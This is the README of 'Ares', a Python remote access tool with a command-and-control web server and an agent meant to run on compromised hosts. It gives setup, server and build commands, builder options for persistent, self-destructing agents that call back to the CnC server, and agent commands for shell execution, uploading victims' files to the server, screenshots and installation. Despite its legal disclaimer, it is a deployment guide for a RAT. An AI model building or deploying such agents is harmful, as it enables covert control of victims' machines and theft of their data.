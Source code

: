 # Ares

Ares is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Ares is made of two main programs:

- A Command aNd Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent can be compiled to native executables using **pyinstaller**.

## Setup

Install the Python requirements:

```
pip install -r requirements.txt
```

Initialize the database:

```
cd server
./ares.py initdb
```

In order to compile Windows agents on Linux, setup wine (optional):

```
./wine_setup.sh
```

## Server

Run with the builtin (debug) server:

```
./ares.py runserver --threaded
```

Or run using gunicorn:

```
gunicorn ares:app --threads 20
```

The server should now be accessible on https://localhost

## Agent

Run the Python agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build a new agent to a standalone binary:

```
./builder.py -p Linux --server https://localhost -o agent
./agent
``` 

To see a list of supported options, run ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

python <command|file>
Runs a Python command or local file.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
